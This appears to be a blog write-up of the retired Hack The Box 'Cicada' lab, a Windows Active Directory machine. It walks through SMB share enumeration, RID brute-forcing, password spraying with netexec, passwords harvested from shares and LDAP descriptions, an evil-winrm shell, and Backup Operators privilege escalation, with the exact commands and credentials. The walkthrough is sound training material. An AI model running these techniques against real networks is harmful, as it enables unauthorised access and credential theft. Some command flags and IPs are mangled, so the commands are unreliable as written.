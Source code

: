 This is a writeup for recently retired Cicada machine in Hackthebox platform.

### Part one: Scanning and Enumeration

Let’s begin with an nmap scan, so that we know which service are running and where to start.

```
nmap -Sv -Sc 10.10.11.27
```

![NMAP](/static/writeups/Cicada/0.png)

We can see many services are running and machine is using Active Directory service and there are many service to fiddle with. I am going to start with samba and enumerate shares using smbclient:

> smbclient -N -L $TAR, (TAR means target ip:TAR=10.10.11.35)

![NMAP](/static/writeups/Cicada/1.png)

let’s check if we can login with guest account or not, and if yes what permission we have using netexec:

> nxc smb 10.10.11.35 -u ‘a’ -p ‘’ — shares

![NMAP](/static/writeups/Cicada/2.png)

I can read HR and $IPC share, lets see HR contents using smbclient. there is a file called ‘Notice from Hr.txt’

![NMAP](/static/writeups/Cicada/3.png)

![NMAP](/static/writeups/Cicada/4.png)

It contains password for default user 'Cicada$M6Corpb\*@Lp#nZp!8' can be seen in this file, lets keep note of it.  
 Now with a password in hand, lets find some usernames so, we can use password we found earlier. As it is active directory we can Enumerate Users by Bruteforcing RID using Netexec:

> sudo nxc smb $TAR -u guest -p ‘’ — rid-brute

![NMAP](/static/writeups/Cicada/5.png)

We can find many user from this command, lets keep note of it. let’s use previously found password from ‘Notice from HR.txt’ and use these user to see if any username matches with password.  
 we can use netexec for this also.

> sudo nxc smb $TAR -u user.txt -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — continue-on-success

![NMAP](/static/writeups/Cicada/6.png)

We can see user ‘michael.wrightson’ matches with that pasword. lets use these credentials in Netexec to see what permission we have on share with this account.

> nxc smb 10.10.11.35 -u ‘michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — shares

Nothing interesting same permission as guest account so, lets use ldapdomaindump using michael to find some more information.

> ldapdomaindump 10.10.11.35 -u ‘cicada\michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’

![NMAP](/static/writeups/Cicada/7.png)

We find that David Orelius left his password in description: ‘aRt$Lp#7t\*VQ!3’. lets use the credentials in Netexec to see what permission we have on share with this account.

![NMAP](/static/writeups/Cicada/8.png)

david can access dev share lets see what is in there using smbclient

> smbclient -U david.orelious //$TAR/DEV

![NMAP](/static/writeups/Cicada/9.png)

there is file called backup_script.ps1 which contains emily.oscars password: ‘Q!3@Lp#M6b*7t*Vt’. Lets see what permission we have on share using these credentials using NetExec:

> nxc smb 10.10.11.35 -u ‘emily.oscars’ -p ‘Q!3@Lp#M6b*7t*Vt’ — shares

![NMAP](/static/writeups/Cicada/10.png)

emily can read all share except DEV and have write access in C$ share.

### Part Two: Finding Foothold

Accessing c$ share using emily account and pivoting here and there we can see that there is file called user.txt in Desktop folder ‘C:\Users\emily.oscars.cicada\Desktop’ from where we are able to get user flag.

Using evil-winrm with emily account, we are able to get shell in the machine.

> sudo evil-winrm -i $TAR -u emily.oscars -p ‘Q!3@Lp#M6b*7t*Vt’

![NMAP](/static/writeups/Cicada/11.png)

and using net user emily.oscars, we can see that emily is part of backup_operators group.

lets keep pivoting, file called root.txt can be found on Desktop folder under Administrator directory.

![NMAP](/static/writeups/Cicada/12.png)

But we cannot download or access that file with emily.

### Part Three: Privilege Escalation

As a built-in AD groups, **Backup operators** can log into a computer and shut it down. Can create backup of local files regardless of permission on that file. NTDS.DIT can be cloned.  
 lets look for a way to escalate privilege in order to read ‘root.txt’. by googling for a while i found a way to escalate privilege of emily.oscars [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)

Using two dll called SeBackupPrivilegeUtils.dll and SeBackupPrivilegeCmdLets.dll, we are able to copy and access file that high level user like admin can access.

![NMAP](/static/writeups/Cicada/13.png)

We can download these file from internet and manually upload them in write access directory of emily.oscars and using the method above we can escalate privilege and copy it to directory with write permission using this command:

> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt c:\\Users\emily.oscars.CICADA\Downloads\a.txt

![NMAP](/static/writeups/Cicada/14.png)

and we are able to get root flag like this:

![NMAP](/static/writeups/Cicada/15.png)

cheers!
